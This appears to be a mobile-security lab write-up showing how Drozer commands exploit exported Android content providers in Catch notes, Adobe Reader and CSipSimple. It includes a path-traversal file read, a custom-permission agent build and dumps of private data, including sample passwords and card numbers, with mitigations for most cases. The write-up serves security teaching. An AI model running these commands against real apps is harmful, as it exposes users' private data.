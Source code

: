 ## Exploiting Catch.apk 
#### The content of the private notes!
```
| My online banking password: $$_hing_123 |
| CC Number: 3345 1231 9834 0549          |
| Meet Sally at 15 Main St. on Friday.    |
```
#### The Hack Session! - Drozer Commands:

Following commands were used:

1. `dz> run app.package.list -f notes`

Get the package name of the notes app since I need it for further investigation. Turns out to be `com.threebanana.notes`

2. `dz> run app.provider.info -a com.threebanana.notes`

Now I want to get an overview of the available content providers. This way I can identify the content provider which is most promising to retrieve the notes, which is `com.threebanana.notes.provider.NotePad`

3. `dz> run app.provider.finduri -a com.threebanana.notes`

In order to try to read the content, I need to get the URI of the content provider.

4. `dz> run app.provider.query content://com.threebanana.notes.provider.NotePad/notes --projection "text"`

Using the given module we're able to get the content of the content provider and filter it for the text column only.

#### Cause of the vulnerability
When looking at the manifest, the content providers are created without any specific permissions:
```
<provider name=".NotePadProvider"
          authorities="com.threebanana.notes.provider.NotePad">
</provider>
```

By default everything is exposed as a result.[1]

#### Mitigation of the vulnerability

I should define custom permissions like `com.threebanana.notes.provider.permission.READ_PROVIDER` which needs to be placed in the manifest as well:
```
<provider name=".NotePadProvider"
          authorities="com.threebanana.notes.provider.NotePad"
          android:permission="com.threebanana.notes.provider.permission.READ_PROVIDER">
</provider>
```
The permission should have the *dangerous* protection level and make sure to state to the user which permission he's giving to a third party application.

If the notes should not be shared with any application, I could use the `android:exported=false` attribute (however then the content provider itself doesn't make much sense).[1]

If I only want to share data between our own apps, I can set `android:protectionLevel` to signature protection.[1]

### 2 Adobe
#### Contents of secret.txt

Content of */sdcard/secrets.txt*:
```
Whoops!!! You got me!!
```

#### Drozer Commands
1. `dz> run app.package.list -f adobe`
2. `dz> run app.provider.finduri com.adobe.reader`
3. `dz> run app.provider.read content://com.adobe.reader.fileprovider/
../../../../sdcard/secret.txt`


Notice that Step 3 uses the `app.prodivder.read` module and traverses the directory tree up to the sdcard where the wished file is located.


### 3 CSipSimple
####  How I managed to allow Drozer to read the content of the  outgoing filters database table!

By running `dz> run app.provider.info -a com.csipsimple` I noticed, that the app's content providers have set `android.permission.CONFIGURE_SIP` as read permission. 

``` 
dz> run app.provider.info -a com.csipsimple
Package: com.csipsimple
  Authority: com.csipsimple.prefs
    Read Permission: android.permission.CONFIGURE_SIP
    Write Permission: android.permission.CONFIGURE_SIP
    Content Provider: com.csipsimple.service.PreferenceProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
  Authority: com.csipsimple.db
    Read Permission: android.permission.CONFIGURE_SIP
    Write Permission: android.permission.CONFIGURE_SIP
    Content Provider: com.csipsimple.db.DBProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

In the Manifest file I see that the permission protection level is 0x1 which means dangerous and no signature protection is present.

```
dz> run app.package.manifest com.csipsimple
</uses-permission>
  <permission label="@2131427346"
              name="android.permission.USE_SIP"
              protectionLevel="0x1"
              permissionGroup="android.permission-group.COST_MONEY"
              description="@2131427347">
```

For the Drozer agent to be able to request that permission, I need to build a modified drozer agent using the command `drozer agent build --permission android.permission.CONFIGURE_SIP` and install it via `adb install custom-agent.apk`.

```
dz> run app.provider.finduri com.csipsimple
Scanning com.csipsimple...
content://com.csipsimple.db/calllogs
content://com.csipsimple.db/outgoing_filters
content://com.csipsimple.prefs/preferences/
content://com.csipsimple.prefs/
content://com.android.contacts/contacts/
content://com.csipsimple.db
content://com.csipsimple.prefs/raz
content://com.android.contacts/contacts
content://com.csipsimple.db/messages
content://com.csipsimple.db/thread
content://com.csipsimple.db/messages/
content://com.csipsimple.db/calllogs/
content://com.csipsimple.db/
content://com.csipsimple.prefs/raz/
content://com.csipsimple.prefs
content://com.csipsimple.db/accounts_status/
content://com.csipsimple.db/accounts/
content://com.csipsimple.db/accounts
content://com.csipsimple.db/accounts_status
content://com.csipsimple.prefs/preferences
content://com.csipsimple.db/thread/
content://com.csipsimple.db/outgoing_filters/
```

The content of the databse table can then be revealed by using `dz> run app.provider.query content://com.csipsimple.db/outgoing_filters` which gives us the following table dump:

```
dz> run app.provider.query content://com.csipsimple.db/outgoing_filters
| _id | priority | account | matches        | replace | action |
| 1   | 0        | -2      | ^\Q+850\E(.*)$ |         | 1      |
| 4   | 0        | 1       | ^\QS\E(.*)$    |         | 1      |
| 2   | 1        | -2      | ^\Q+1\E(.*)$   |         | 0      |
| 3   | 2        | -2      | ^\Q+4\E(.*)$   |         | 4      |
```

#### Mitigation of this vulnerbility
If the permission is defined with the signature protection level, other apps cannot request the same permission as this permission will be tied with unique signature of app itself and thus it will avoid the vulnerability.




## List of references
- [1] https://developer.android.com/training/articles/security-tips#ContentProviders
- [2] https://github.com/mwrlabs/drozer-agent
